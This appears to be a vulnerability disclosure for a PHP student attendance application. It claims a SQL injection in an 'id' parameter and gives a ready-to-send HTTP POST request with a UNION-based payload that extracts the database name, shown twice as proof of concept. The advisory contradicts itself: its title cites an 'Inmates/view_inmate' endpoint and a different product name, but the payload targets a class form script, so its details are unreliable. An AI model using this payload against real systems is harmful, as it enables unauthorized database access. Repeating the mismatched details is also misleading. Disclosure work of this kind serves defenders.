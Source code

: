 # Simple_Student_Attendance_System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Simple_Student_Attendance_System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=17018&title=Simple+Student+Attendance+System+using+PHP+and+MySQL
#### Version: Simple_Student_Attendance_System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online student management system does not filter the content correctly at the "Inmates/view_inmate" id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
POST /modals/class_form.php HTTP/1.1
Host: 192.168.67.10
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: http://192.168.67.10
Connection: close
Referer: http://192.168.67.10/?page=class_list
Cookie: PHPSESSID=psarlfq242067i9u428ih8b82d

id=1' and 1=2 union select 1,database(),3,4--+
```



#### Proof of Concept

1. Open Page http://192.168.67.10/?page=class_list, click `edit`  

   ![image-20231225144253666](img/Simple_Student_Attendance_System(SQLI)/image-20231225144253666.png)

   

2. Put SQL payload   in the BURP;

   

   ```
   POST /modals/class_form.php HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   X-Requested-With: XMLHttpRequest
   Content-Length: 46
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/?page=class_list
   Cookie: PHPSESSID=psarlfq242067i9u428ih8b82d
   
   id=1' and 1=2 union select 1,database(),3,4--+
   ```

   


4. Viewing the Response;

   

![image-20231225144342061](img/Simple_Student_Attendance_System(SQLI)/image-20231225144342061.png)



![image-20231225144409034](img/Simple_Student_Attendance_System(SQLI)/image-20231225144409034.png)

![image-20231225144434961](img/Simple_Student_Attendance_System(SQLI)/image-20231225144434961.png)

